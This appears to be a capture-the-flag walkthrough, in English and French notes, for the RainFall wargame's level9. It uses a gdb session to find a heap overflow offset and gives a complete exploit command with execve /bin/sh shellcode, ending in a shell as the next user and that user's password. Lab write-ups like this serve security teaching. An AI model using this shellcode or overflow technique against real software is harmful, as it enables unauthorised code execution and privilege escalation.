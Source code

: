 ```
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Breakpoint 1, 0x0804867c in main ()
(gdb) c
Continuing.
```
the pattern ```0x0804867c``` is not found but we can see that is realocated in the registre eax
```
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) i r eax
eax            0x41366441       1094083649
(gdb) 
```
the pattern ```0x41366441``` overflow at the offset 108

```
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:	mov    edx,DWORD PTR [eax]
   ...
> b *0x0804867c
> i r
> x $eax
```

dereference esp+10 dans eax = endroit de l'overflow
ni
``
0804a00c = debut du payload

[0804a00c+4 pour pointer sur le shellcode juste apres] [shellcode pointe par 0804a00c+4]

 [padding de 83 jusqu'au 0804a00c+108] [0804a00c (pointeur sur le debut du payload)]``

```
level9@RainFall:~$ ./level9 $(python -c "print '\x08\x04\xa0\x10'[::-1] + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'A'*83 + '\x08\x04\xa0\x0c'[::-1]") 
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```